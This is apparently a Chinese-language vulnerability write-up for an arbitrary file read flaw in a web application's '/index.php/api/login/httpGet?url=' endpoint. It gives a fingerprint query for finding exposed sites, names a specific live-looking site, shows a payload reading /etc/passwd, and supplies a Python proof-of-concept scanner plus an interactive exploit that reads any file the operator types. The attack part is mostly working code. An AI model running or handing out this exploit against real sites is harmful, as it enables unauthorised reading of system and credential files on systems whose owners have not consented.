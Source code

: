 ## 一、资产搜索

```
body="/static/index/js/jweixin-1.2.0.js"
```

## 二、网站测试

```
https://kk.jidtong.com
```

## 三、验证漏洞

```
/index.php/api/login/httpGet?url=file:///etc/passwd
```

![image-20240914155455456](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914155455456.png)

## 四、POC

```
def poc(target):
    payload = "/index.php/api/login/httpGet?url=file:///etc/passwd"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"{target}\n")
                    f.close()
                    print(f"[+]{target}存在任意文件读取漏洞")
                    return True
            else:
                print(f"[-]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        cmd = input("请输入要查看的文件，从/目录开始，q退出\n>>>>>>>>>>>>>>>>>>>")
        if cmd == 'q':
            exit(0)
        payload = "/index.php/api/login/httpGet?url=file://"
        try:
            res3 = requests.get(url=target + payload +cmd, verify=False, timeout=5)
            if res3.text != "":
                print(res3.text)
            else:
                print("文件不存在，请重新输入")
        except Exception as e:
            print(e)
```

## 六、测试结果

![image-20240914160634270](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914160634270.png)

![image-20240914160929565](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914160929565.png)

